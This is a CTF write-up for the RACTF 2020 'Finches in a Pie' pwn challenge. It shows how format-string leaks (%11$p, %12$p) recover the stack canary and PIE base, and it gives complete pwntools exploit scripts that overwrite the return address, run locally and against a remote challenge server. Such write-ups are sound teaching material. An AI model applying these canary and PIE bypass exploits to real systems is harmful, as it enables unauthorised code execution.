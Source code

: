 # Finches in a Pie

This challenge is very similiar to Finches in a Stack, so this one is more like a continuation of that writeup, so I'd advise reading that one first before reading this one. Here's the link:
[Finches in a Stack](https://github.com/crypt0n1te/write-ups/blob/master/ractf-2020/rev-pwn/finches_in_a_stack.md)

## Protections
First, let's check the protections that this binary has using checksec:
```
sasha@kali:~/RACTF$ pwn checksec fiap
[*] '/home/sasha/RACTF/fiap'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

So here's what we have to deal with:

* Canary: This is a protection that places a random value before a return pointer, so that if you overwrite it with an invalid value, the program crashes

* NX: This prevents us from executing our own shellcode by marking critical areas as non-executable

And a new one:

* PIE: This essentially randomizes the addresses of the functions and gadgets, making returning to functions harder

Since this binary is practically the same as `fias`, I won't go over the reversing again

## Overview

Our exploit is going to have four parts again:

* Padding, to reach the canary
* Canary, to overwrite canary, so that the program doesn't crash
* More padding, to reach the return pointer
* Return Pointer, where we point back into 'flag'

We already have the other 4 sorted, however our new challenge is to find the return pointer, due to PIE randomizing it

## Leaking PIE

Fortunately, we can also leak a PIE address with format strings, this time it's `%12$p`. However, there are some calculations that need to be made to get the base address
Lets load up gdb and have a look at the functions:
```
0x00001209  flag
```
So now we have the offset of `flag`. Let's run it with a breakpoint at say_hi (as that's where input is taken):
```
gdb-peda$ b say_hi
Breakpoint 1 at 0x1287
gdb-peda$ r
```
Let's skip to the printf which we use to leak, entering `%12$p` in the `gets`:
```
gdb-peda$ 
0x56559000!
```
Now we need to find out what to do with this address to get the base address. Let's take a function, say the `flag` function, see where it is now after being randomized:
```
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x56556209 <flag>
```
And using our offset from before
> 0x00001209
We will take the offset away from the flag address, to find the base:
```
gdb-peda$ p/x 0x56556209 - 0x1209
$2 = 0x56555000
```
So that's our base address, now we do:
```
gdb-peda$ p/x 0x56559000 - 0x56555000
$3 = 0x4000
```
To find the offset of the leaked PIE address. Now, using this information, we can always find the return pointer we need

## Local exploit

Now we can create our local exploit using python3 + pwntools. We send the two format strings in the same line, separated by a `-`, so we can leak the canary and PIE at one time:
```python
from pwn import *

e = ELF("fiap")
io = e.process()

for i in range(0,10):
	io.recvline()

io.sendline("-%11$p-%12$p-")		# Leak both canary and PIE
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000	# Gets base
log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209	# Base + Flag offset

payload = b"a" * 25		# Pads upto canary
payload += p32(canary)		# Overwrites canary
payload += b'bbbbccccdddd' 	# Pads upto return address
payload += p32(flag)		# Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```

## Transferring to remote

Transferring to remote is very simple once again:
```python
from pwn import *
import sys

args = sys.argv[1].split(":")
ip = args[0]
port = args[1]

io = remote(ip,port)

for i in range(0,10):
	io.recvline()

io.sendline("-%11$p-%12$p-")		# %11$lx leaks canary, %12$p leaks pie
recieved = str(io.recvline()).split("-")
canary = int(recieved[1],16)
pie = int(recieved[2],16) - 0x4000	# Leaked pie take 0x4000 results in binary base

log.info("Canary: " + str(hex(canary)))
log.info("PIE: " + str(hex(pie)))
io.recvline()

flag = pie + 0x1209

payload = b"a" * 25		# Pads upto canary
payload += p32(canary)		# Overwrites canary
payload += b'bbbbccccdddd' 	# Pads upto return address
payload += p32(flag)		# Overwites return addr with addr of flag function

io.sendline(payload)
print(io.recvline().decode())
io.close()
```
Let's now run it:
```
sasha@kali:~/RACTF$ python3 fiapremote.py 95.216.233.106:49276
[+] Opening connection to 95.216.233.106 on port 49276: Done
[*] Canary: 0x3132f200
[*] PIE: 0x565d6000
ractf{B4k1ng_4_p1E!}

[*] Closed connection to 95.216.233.106 port 49276
sasha@kali:~/RACTF$ 
```
Challenge done!
